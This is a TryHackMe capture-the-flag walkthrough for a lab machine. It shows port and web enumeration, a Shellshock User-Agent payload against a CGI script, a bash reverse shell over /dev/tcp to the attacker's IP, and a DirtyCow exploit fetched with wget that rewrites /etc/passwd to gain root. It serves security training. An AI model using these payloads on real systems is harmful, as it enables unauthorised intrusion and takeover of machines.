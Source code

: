 ```yaml
---
categories: [TryHackMe]
tags: [PrivEsc, ShellShock, sudo exploit]  
image:
  path: /Vulnhub-Files/img/Turtle/front.png
  alt: Turtle TryHackMe Machine 💻 
---
```


## Port Scan Resutls ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/0day]
└─$ rustscan -t 5000 -a 10.10.106.27 --ulimit 5000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-''
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.106.27:22
Open 10.10.106.27:80
[~] Starting Script(s)
```
{: .nolineno}
{: .nolineno}

## Web Enumeration ⤵️

While doing directory or files bruteforcing I got some directories like this →

```bash
301      GET        9l       28w      313c http://10.10.106.27/cgi-bin => http://10.10.106.27/cgi-bin/
301      GET        9l       28w      309c http://10.10.106.27/img => http://10.10.106.27/img/
200      GET        7l       11w      156c http://10.10.106.27/js/main.js
200      GET       78l      138w     1114c http://10.10.106.27/css/main.css
301      GET        9l       28w      313c http://10.10.106.27/uploads => http://10.10.106.27/uploads/
200      GET      423l     2430w   194997c http://10.10.106.27/img/avatar.png
200      GET       42l      136w     3025c http://10.10.106.27/
301      GET        9l       28w      311c http://10.10.106.27/admin => http://10.10.106.27/admin/
301      GET        9l       28w      309c http://10.10.106.27/css => http://10.10.106.27/css/
301      GET        9l       28w      308c http://10.10.106.27/js => http://10.10.106.27/js/
301      GET        9l       28w      312c http://10.10.106.27/backup => http://10.10.106.27/backup/
200      GET        1l        7w       38c http://10.10.106.27/robots.txt
301      GET        9l       28w      312c http://10.10.106.27/secret => http://10.10.106.27/secret/
```
{: .nolineno}
{: .nolineno}

Now I tried the shellshock vulnerability and I got a hit like this →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/0day]
└─$ curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://10.10.106.27/cgi-bin/test.cgi

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{: .nolineno}
{: .nolineno}

Now its time for the reverse shell →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/0day]
└─$ curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /bin/bash -c 'bash -i >& /dev/tcp/10.8.83.156/4444 0>&1'" http://10.10.106.27/cgi-bin/test.cgi
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Turtle/Untitled.png)

## SSH SHELL ⤵️

Now I directly checked its kernel version and it is way old →

```bash
www-data@ubuntu:/$ uname -an
uname -an
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
www-data@ubuntu:/$
```
{: .nolineno}
{: .nolineno}

Now I will be using the dirtycow exploit over here for getting the root shell →

```bash
www-data@ubuntu:/tmp$ wget http://10.8.83.156/exploit_64
--2023-10-05 09:30:19--  http://10.8.83.156/exploit_64
Connecting to 10.8.83.156:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 14368 (14K) [application/octet-stream]
Saving to: 'exploit_64'

 0% [                                       ] 0           --.-K100%[======================================>] 14,368      77.1KB/s   in 0.2s   

2023-10-05 09:30:19 (77.1 KB/s) - 'exploit_64' saved [14368/14368]

www-data@ubuntu:/tmp$ chmod +x *
www-data@ubuntu:/tmp$ ./exploit_64 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
evait:fiw.I6FqpfXW.:0:0:pwned:/root:/bin/bash

mmap: 7fecff9ea000

# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
cat /root/root.txt
THM{FLAG is}
```
{: .nolineno}
{: .nolineno}

I am Root Now !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }